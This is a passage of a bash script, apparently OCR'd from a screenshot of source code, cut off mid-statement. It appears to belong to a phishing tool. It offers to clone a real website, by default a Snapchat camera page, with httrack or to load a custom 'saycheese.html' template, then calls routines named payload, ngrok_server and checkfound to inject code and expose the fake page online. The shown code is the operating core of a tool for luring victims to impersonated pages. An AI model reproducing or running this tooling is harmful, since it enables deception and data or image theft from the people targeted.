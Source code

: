 if [[ ! -d images/ ]]; then

mkdir images

fi

if [[ -e sendlink ]]; then

rm -rf sendlink

fi

printf "\n"

printf "\e[1;92m[\e[0m\e[1;77m01\e[0m\e[1;92m]\e[0m\e[1;93m Mirror website\e[0m\n"

printf "\e[1;92m[\e[0m\e[1;77m02\e[0m\e[1;92m]\e[0m\e[1;93m Custom template\e[0m\n"

default_option_server="1"

read -p $'\n\e[1;92m[\e[0m+\e[0m\e[1;92m] Choose an option: \e[0m' option_server

option_server="${option_server:-${default_option_server}}"

if [[ $option_server -eq 1 ]]; then

command -v httrack > /dev/null 2>&1 || { echo >&2 "I require httrack: apt-get install httrack"; exit 1; }

default_website_mirror="https://snapcamera.snapchat.com"

printf '\e[1;92m[\e[0m\e[1;77m+\e[0m\e[1;92m] Website (default:\e[0m\e[1;77m %s\e[0m\e[1;92m): \e[0m' $default_website_mirror 

read website_mirror

website_mirror="${website_mirror:-${default_website_mirror}}"

printf "\e[1;92m[\e[0m+\e[1;92m] Mirroring website with HTTrack...\e[0m\n"

if [[ ! -d websites/ ]]; then

mkdir websites

fi

httrack --clean -Q -q -K -* --index -O websites/ $website_mirror > /dev/null 2>&1

payload

ngrok_server

checkfound

elif [[ $option_server -eq 2 ]]; then

default_website_template="saycheese.html"

read -p $'\e[1;92m[\e[0m\e[1;77m+\e[0m\e[1;92m] Template file: \e[0m' website_template

website_template="${website_template:-${default_website_template}}"

if [[ -f $website_template ]]; then

if [[ $website_template == *'index.php'* ]]; then
